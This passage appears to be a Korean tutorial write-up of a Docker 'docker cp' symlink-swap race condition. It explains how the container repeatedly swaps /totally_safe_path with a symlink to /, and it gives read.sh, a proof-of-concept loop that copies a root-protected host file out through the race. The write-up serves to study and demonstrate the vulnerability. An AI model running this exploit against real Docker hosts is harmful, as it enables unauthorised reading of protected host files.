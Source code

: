 간단히 코드를 분석해보면, `/totally_safe_path` 가 `/` 에 링크되고 `/totally_safe_path-stashed` 라는 이름의 디렉토리를 만든 상태에서 `/totally_safe_path` 와 `/totally_safe_path-stashed` 간 이름 교환하기를 무한히 반복한다. 

```dockerfile
# A, totally_safe_path가 /를 가르키면서 루트 권한을 갖는다. 
lrwxrwxrwx  totally_safe_path -> / 
drwxr-xr-x  totally_safe_path-stashed

# B, totally_safe_path-stashed가 /를 가르키면서 루트 권한을 갖는다. 
drwxr-xr-x  totally_safe_path
lrwxrwxrwx  totally_safe_path-stashed -> /
```

이렇게 작동 한다. 이를 좀 더 직관적으로 보면 아래 이미지와 같다. 

![image-20230102181340481](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20230102181340481.png)

최종적으로 이렇게 1번과 2번이 차례대로 계속해서 교차반복 되는 것이다. 



<h4>Exploit - Arbitrary File Read</h4>

이제는 파일 읽기를 먼저 해보자.  

```sh
$ echo "Copy SUCCESS!" | sudo tee /flag
Copy SUCCESS!
$ cat /flag
Copy SUCCESS!
$ sudo chmod 000 /flag
$ cat /flag
cat: /flag: Permission denied
```

위의 과정은 호스트 로컬에` /flag `파일에 Copy SUCCESS!를 작성해두고 이 파일을 읽어보는 예시다. 일반적으로라면 당연히 도커 컨테이너 내부에서는 이 `/flag`파일을 읽지 못한다. 

이제 공격 코드를 살펴보자. 아래 코드는 `read.sh` 이다. 

```sh
#!/bin/sh

# dockerfile과 symlin_swap.c로 poc라는 이름의 이미지를 생성 및 도커 컨테이너 실행
docker build -t poc .
container_id=$(docker run --rm -d poc)

# 이제 계속 파일을 복사하기 위한 공격 시도
i=0
while [ $i -lt 500 ]
do
	mkdir "ex${i}"
	#이게 핵심.. 컨테이너에 위치한 /totally_safe_path/flag 파일을 호스트 로컬의 ex${i}/out으로 복사하는 명령어. 성공한다면 해당 파일에 /totally_safe_path/flag의 내용인, Copy SUCCESS!가 적힐 것이다. 
	docker cp "${container_id}:/totally_safe_path/flag" "ex${i}/out"
	i=$(($i + 1))
done
chmod 0644 ex*/out
```
